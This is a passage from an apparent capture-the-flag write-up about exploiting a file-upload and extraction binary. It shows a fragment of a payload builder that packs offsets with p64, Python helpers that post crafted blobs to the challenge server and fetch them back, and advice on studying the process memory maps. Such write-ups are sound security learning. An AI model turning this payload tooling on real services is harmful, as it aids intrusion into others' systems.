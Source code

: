 ```py
        self.content += b'\x03'
        self.content += p64(off)
        self.content += p64(count)
        self.cur += 17
```

# 4. Interacting with the binary

Before diving into the exploitation phase, It is always good to build something that let you easily interact with the binary, to avoid wasting time.

```py
import requests

def uploadFile(blob: bytes, fileid: int):
    assert (fileid < (1<<31) - 1)

    multipart_form_data = {
        'file': (f'payload_{fileid}', blob),
    }

    res = requests.post(
        f"http://{SERVER_IP}:{SERVER_PORT}/upload/{fileid}",
        files=multipart_form_data
    )

    return res

def getFile(fileid: int, extract="true"):
    res = requests.get(f"http://{SERVER_IP}:{SERVER_PORT}/files/{fileid}?extract={extract}")
    return res
```

### Inspect the memory mappings of the challenge

That was very important to me when trying to solve the challenge, I stared at the memory mappings for a lot of time.

To do this, you can spawn a local instance of the challenge and read the process maps after doing some operations.
